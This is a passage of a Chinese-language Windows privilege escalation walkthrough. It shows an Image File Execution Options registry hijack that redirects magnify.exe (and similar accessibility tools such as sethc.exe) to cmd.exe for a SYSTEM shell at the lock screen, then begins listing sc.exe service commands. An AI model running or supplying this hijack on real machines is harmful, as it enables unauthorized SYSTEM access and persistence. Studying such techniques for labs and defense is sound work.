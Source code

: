 ![image-20231005001002988](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231005001002988.png)

这里我们发现所有正常登录的用户都可以修改注册表，利用这个性质，修改注册表映像劫持，使用放大镜进行提权，其实也就是把本来用户主页点放大镜启动的magnify.exe替换成C:\windows\system32\cmd.exe，这样就直接提权成system了

```bash
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\magnify.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"
```

更多如下

- 屏幕键盘： C:\Windows\System32\osk.exe
- 放大镜： C:\Windows\System32\Magnify.exe
- 旁白： C:\Windows\System32\Narrator.exe
- 显示切换器 C:\Windows\System32\DisplaySwitch.exe
- 应用切换器： C:\Windows\System32\AtBroker.exe
- 粘贴键（开始菜单锁定用户, 然后连按五次 shift）：Options\sethc.exe

然后点左下角的头像锁屏

![image-20231005001143702](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231005001143702.png)

进主页点右下角的放大镜

![image-20231005001201203](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231005001201203.png)

直接就system权限了

![image-20231005001214973](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231005001214973.png)

### 服务劫持

#### sc基本命令

查询服务的配置：

```bash
sc.exe qc <name>
```

查询服务的当前状态：

```bash
sc.exe query <name>
```

修改服务的配置选项：

```bash
sc.exe config <name> <option>= <value> # = 后必须带空格
```

开始/停止服务：

```bash
net start/stop <name>
```

